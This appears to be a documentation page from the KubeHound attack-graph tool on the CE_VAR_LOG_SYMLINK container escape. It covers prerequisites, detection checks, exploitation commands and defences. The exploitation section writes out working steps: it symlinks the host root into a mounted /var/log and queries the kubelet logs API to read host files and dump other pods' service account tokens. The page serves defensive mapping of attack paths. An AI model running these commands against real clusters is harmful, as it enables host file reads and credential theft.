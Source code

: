 ```yaml
---
title: CE_VAR_LOG_SYMLINK
---
```


<!--
id: CE_VAR_LOG_SYMLINK
name: "Arbitrary file reads on the host"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_VAR_LOG_SYMLINK

| Source                                | Destination                 | MITRE ATT&CK                                                        |
| ------------------------------------- | --------------------------- | ------------------------------------------------------------------- |
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Arbitrary file reads on the host from a node via an exposed `/var/log` mount.

## Details

A pod running as root and with a mount point to the node's `/var/log` directory can expose the entire contents of its host filesystem to any user who has access to its logs, enabling an attacker to read arbitrary files on the host node. See [Kubernetes Pod Escape Using Log Mounts](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) for a more detailed explanation of the technique.

## Prerequisites

Execution as root within a container process with the host `/var/log/` (or any parent directory) mounted inside the container.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/CE_VAR_LOG_SYMLINK.yaml).

## Checks

Determine mounted volumes within the container as per [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks) If the host `/var/log` (or any parent directory) is mounted, this attack will be possible. Example output below:

```bash
cat /proc/self/mounts

...
/dev/vda1 on /host/var/log type ext4 (rw,relatime)
...
```

```bash
# Examine the directory structure of any hostPath mounts to verify it is the log directory
ls -la /host/var/log
total 24
drwxr-xr-x 5 root root 4096 Mar  2 09:49 .
drwxr-xr-x 3 root root 4096 Mar  8 10:31 ..
-rw-r--r-- 1 root root  775 Mar  4 18:13 alternatives.log
drwxr-xr-x 2 root root 4096 Mar  8 10:46 containers
drwxr-xr-x 3 root root 4096 Mar  2 09:49 kubernetes
drwxr-xr-x 8 root root 4096 Mar  8 10:31 pods

ls -la /host/var/log/pods
total 32
drwxr-xr-x  8 root root 4096 Mar  8 10:31 .
drwxr-xr-x  5 root root 4096 Mar  2 09:49 ..
drwxr-xr-x  3 root root 4096 Mar  8 10:31 default_log-escape-pod_f262a349-c3bb-4561-9496-c3182f8d1256
```

## Exploitation

Setup the symlink:

```bash
ln -s / /host/var/log/root_link
```

Call the kubelet API to read the "logs" and extract pod service account tokens:

```bash
$ KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
$ NODEIP=$(ip route | awk '/^default/{print $3}')
# On Amazon EKS, if you have access to the IMDS: NODEIP=$(curl http://169.254.169.254/latest/meta-data/local-ipv4)

# Find all the pods
$ curl -sk -H "Authorization: Bearer $KUBE_TOKEN" https://$NODEIP:10250/logs/root_link/var/lib/kubelet/pods/

# <pre>
# <a href="10b90d62-6b16-4aa7-9e72-75f18dcca5a8/">10b90d62-6b16-4aa7-9e72-75f18dcca5a8/</a>
# <a href="2254e754-fbe0-48c4-b0c8-236a232fa510/">2254e754-fbe0-48c4-b0c8-236a232fa510/</a>
# <a href="324fe80e-e10e-462b-b046-be4c15e91b4e/">324fe80e-e10e-462b-b046-be4c15e91b4e/</a>
# <a href="5a9fc508-8410-444a-bf63-9f11e5979bee/">5a9fc508-8410-444a-bf63-9f11e5979bee/</a>
# <a href="a1176593-34a2-43e6-8bdd-ed10fa148fe7/">a1176593-34a2-43e6-8bdd-ed10fa148fe7/</a>
# <a href="a83a37cf-01ea-4b4c-ad19-f67e374cf255/">a83a37cf-01ea-4b4c-ad19-f67e374cf255/</a>
# <a href="dfbf38ad-2e92-44e0-b05b-8859350b6ea5/">dfbf38ad-2e92-44e0-b05b-8859350b6ea5/</a>
# </pre>

# Dump the token
$ curl -sk -H "Authorization: Bearer $KUBE_TOKEN" https://$NODEIP:10250/logs/root_link/var/lib/kubelet/pods/10b90d62-6b16-4aa7-9e72-75f18dcca5a8/volumes/kubernetes.io~projected/kube-api-access-j7dsp/token

# eyJhbGciOiJSUzI1NiIsImtpZCI6I****REDACTED****
```

Cleanup the symlink when exploitation is complete:

```bash
rm /host/var/log/root_link
```

NOTE: the above assumes the serviceaccount has access to read logs. If *not* replace the token for any user token which should normally have logs access.

## Defences

### Monitoring

+ Monitor for suspicious symlink creation in the `/var/log` directory.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/var/log` or other sensitive locations.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [EscapeVarLogSymlink](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_var_log_symlink.go)

## References:

+ [Kubernetes Pod Escape Using Log Mounts](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) 
+ [Kubelet API · Deep Network](https://www.deepnetwork.com/blog/2020/01/13/kubelet-api.html#logs)
